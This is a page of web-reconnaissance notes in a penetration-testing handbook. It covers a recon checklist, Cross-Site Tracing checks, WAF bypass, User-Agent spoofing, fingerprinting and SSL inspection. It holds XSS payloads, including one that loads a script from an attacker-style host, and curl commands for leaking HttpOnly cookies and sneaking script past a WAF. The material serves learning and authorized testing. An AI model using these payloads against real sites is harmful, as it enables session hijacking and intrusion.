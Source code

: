 ```yaml
---
icon: arrows-to-eye
---
```


# Recon

<details>

<summary><mark style="color:red;"><strong><code>Check-List</code></strong></mark></summary>

* [ ] <mark style="color:purple;">Check</mark> <mark style="color:orange;">**`robots.txt`**</mark>
* [ ] <mark style="color:purple;">Check</mark> <mark style="color:orange;">**`.git`**</mark>
* [ ] <mark style="color:purple;">Use</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">method</mark>
* [ ] <mark style="color:purple;">Force error messages</mark>

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Forms</code></strong></mark></summary>



</details>

<details>

<summary><mark style="color:orange;"><strong><code>Markdown</code></strong></mark></summary>

* <mark style="color:purple;">Test for</mark> <mark style="color:orange;">**`XSS`**</mark> <mark style="color:purple;">,</mark> <mark style="color:orange;">**`HTML`**</mark> <mark style="color:purple;">injection and</mark> <mark style="color:orange;">**`JavaScript`**</mark> <mark style="color:purple;">execution:</mark>

{% code title="Malicious Md file" overflow="wrap" %}
```javascript
### local XSS
<img src=x onerror=alert(1) />

### load image
<img src="http://10.10.14.162:8000/image.png" />

### load script
<script src="http://10.10.14.162:8000/script.js"></script>

### Md
<img src='http://10.10.14.162:8000/test.md' />
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>TRACE</code></strong></mark> <mark style="color:purple;">Method</mark></summary>

{% hint style="info" %}


#### <mark style="color:red;">**`Checking for Cross-Site Tracing (XST) – Bypassing HttpOnly Cookies`**</mark>

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">is enabled and the response reflects cookies, an attacker can bypass the</mark> <mark style="color:orange;">**`HttpOnly`**</mark> <mark style="color:purple;">flag</mark>.
* <mark style="color:purple;">Normally,</mark> <mark style="color:orange;">**`HttpOnly`**</mark>**&#x20;**<mark style="color:purple;">**prevents JavaScript from accessing cookies, but**</mark>**&#x20;**<mark style="color:orange;">**`TRACE`**</mark>**&#x20;**<mark style="color:purple;">**can leak them if not properly restricted.**</mark>

{% code title="POC" overflow="wrap" %}
```sh
curl -X TRACE https://target.com -H "Test: XST"
```
{% endcode %}

* <mark style="color:purple;">If the response includes the custom header,</mark> <mark style="color:orange;">**`TRACE`**</mark>**&#x20;**<mark style="color:purple;">**is enabled**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">If it leaks</mark> <mark style="color:orange;">**`Set-Cookie`**</mark> <mark style="color:purple;">headers, it’s</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**a serious security issue**</mark><mark style="color:purple;">.</mark>
* <mark style="color:orange;">**`Bug Bounty Impact`**</mark><mark style="color:purple;">**:**</mark> [<kbd><mark style="color:red;">**Session Hijacking**<mark style="color:red;"></kbd>](main-techniques/session-hijacking.md)&#x20;
{% endhint %}

***

{% hint style="info" %}


#### <mark style="color:red;">**`Finding Internal Headers & Debug Info`**</mark>

<mark style="color:purple;">Some servers return</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**sensitive internal headers**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">when</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">is enabled, such as:</mark>

* <mark style="color:orange;">**`X-Forwarded-For`**</mark> <mark style="color:purple;">--> Real client IP leak.</mark>
* <mark style="color:orange;">**`X-Backend-Server`**</mark> <mark style="color:purple;">--> Internal server exposure.</mark>
* <mark style="color:orange;">**`Via`**</mark> <mark style="color:purple;">--> Reveals proxy setup.</mark>

{% code title="POC" overflow="wrap" %}
```sh
curl -X TRACE https://target.com
```
{% endcode %}

* <mark style="color:purple;">Look for unusual headers in the response.</mark>
* <mark style="color:orange;">**`Bug Bounty Impact`**</mark><mark style="color:purple;">**:**</mark> <mark style="color:red;">**`Information Disclosure`**</mark>
{% endhint %}

***

{% hint style="info" %}


#### <mark style="color:red;">**`Finding WAF / Security Device Bypasses`**</mark>

* <mark style="color:purple;">Some</mark> <mark style="color:orange;">**`WAFs`**</mark>**&#x20;**<mark style="color:purple;">**don’t inspect**</mark>**&#x20;**<mark style="color:orange;">**`TRACE`**</mark>**&#x20;**<mark style="color:purple;">**requests**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">properly.</mark>
* <mark style="color:purple;">You can use</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">to test</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**whether**</mark>**&#x20;**<mark style="color:orange;">**`WAF`**</mark>**&#x20;**<mark style="color:purple;">**protections apply to certain endpoints**</mark><mark style="color:purple;">.</mark>

{% code title="POC" overflow="wrap" %}
```sh
curl -X TRACE https://target.com/index.php --data "payload=<script>alert(1)</script>"
```
{% endcode %}

<mark style="color:purple;">If</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">reflects the payload, but normal requests are blocked, the</mark> <mark style="color:orange;">**`WAF`**</mark> <mark style="color:purple;">**is bypassable**</mark><mark style="color:purple;">.</mark>
{% endhint %}

***

{% hint style="info" %}


#### <mark style="color:red;">**`Checking for Cross-Origin Attacks`**</mark>

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">is enabled, it might allow</mark> <mark style="color:red;">**`same-origin policy (SOP)`**</mark>**&#x20;**<mark style="color:purple;">**bypasses**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Some older browsers or misconfigured</mark> <mark style="color:orange;">**`CORS`**</mark> <mark style="color:purple;">setups can be exploited if</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">echoes requests cross-origin.</mark>
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong>Browser</strong></mark> <mark style="color:purple;"><strong>DevTools</strong></mark></summary>



{% hint style="info" %}
###

{% code title="Show devtools" %}
```
[CTRL+SHIFT+I] or [F12]
```
{% endcode %}

{% code title="Show Network tab" %}
```
[CTRL+SHIFT+E]
```
{% endcode %}

{% code title="Show Console tab" %}
```
[CTRL+SHIFT+K]
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong>Bypass</strong></mark><strong> </strong><mark style="color:orange;"><strong><code>User-Agent</code></strong></mark><strong> </strong><mark style="color:purple;"><strong>filtering</strong></mark></summary>

* <mark style="color:purple;">Use</mark> [<mark style="color:orange;">**`HTTPBin`**</mark>](https://httpbin.io/user-agent) <mark style="color:purple;">to check the</mark> <mark style="color:orange;">**`User-Agent`**</mark> <mark style="color:purple;">from any client.</mark>

- <mark style="color:purple;">Experiment with those</mark> <mark style="color:orange;">**`User-Agent`**</mark><mark style="color:purple;">**:**</mark>&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36 Edg/123.0.2420.81
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36 OPR/109.0.0.0
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Mozilla/5.0 (Macintosh; Intel Mac OS X 14.4; rv:124.0) Gecko/20100101 Firefox/124.0
Mozilla/5.0 (Macintosh; Intel Mac OS X 14_4_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.4.1 Safari/605.1.15
Mozilla/5.0 (Macintosh; Intel Mac OS X 14_4_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36 OPR/109.0.0.0
Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Mozilla/5.0 (X11; Linux i686; rv:124.0) Gecko/20100101 Firefox/124.0
```
{% endcode %}

</details>

<details>

<summary><mark style="color:purple;"><strong>Website Fingerprinting</strong></mark></summary>

* <mark style="color:purple;">Use</mark> [<mark style="color:orange;">**`Wappalyzer`**</mark>](https://www.wappalyzer.com/)

- <mark style="color:purple;">Or in the command line:</mark>

```bash
whatweb -v 10.10.10.121
```

{% code title="Website banners" %}
```sh
curl -IL https://www.inlanefreight.com
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>SSL</code></strong></mark> <mark style="color:purple;"><strong>Certificates</strong></mark></summary>

* <mark style="color:purple;">Use</mark> <mark style="color:orange;">**`openssl`**</mark> <mark style="color:purple;">to get the certificate's info:</mark>

{% code overflow="wrap" %}
```sh
echo | openssl s_client -showcerts -servername 10.10.10.124 -connect 10.10.10.124:443 2>/dev/null | openssl x509 -inform pem -noout -text
```
{% endcode %}

{% code title="Grep for subdomains" overflow="wrap" %}
```sh
echo | openssl s_client -showcerts -servername 10.10.10.124 -connect 10.10.10.124:443 2>/dev/null | openssl x509 -inform pem -noout -text | grep DNS | tr "," "\n" | cut -d: -f2
```
{% endcode %}

* <mark style="color:purple;">Create a custom wordlist with the subdomains to fuzz for response codes and gain a general idea of the content:</mark>

```sh
 ffuf -c -w domains -u https://FUZZ
```

* <mark style="color:purple;">When working with</mark> <mark style="color:orange;">**`HTTPS`**</mark> <mark style="color:purple;">is good practice to</mark> <mark style="color:purple;">validate the</mark> <mark style="color:orange;">**`SSL/TLS`**</mark> <mark style="color:purple;">version and ciphers in use:</mark>

{% code overflow="wrap" %}
```sh
openssl s_client -connect 10.10.10.124:443 -servername 10.10.10.124 -showcerts
```
{% endcode %}

* <mark style="color:purple;">You can follow up with the</mark> <mark style="color:orange;">**`-cipher`**</mark> <mark style="color:purple;">flag to specify the cipher suites you're interested in:</mark>

{% code overflow="wrap" %}
```sh
openssl s_client -connect 10.10.10.124:443 -servername 10.10.10.124 -cipher ECDHE-RSA-AES256-GCM-SHA384
```
{% endcode %}

* <mark style="color:purple;">Check if the server implements</mark> <mark style="color:orange;">**`HSTS`**</mark> <mark style="color:purple;">by looking for it's header</mark><mark style="color:purple;">**:**</mark>

```sh
curl -I https://10.10.10.124
```

</details>
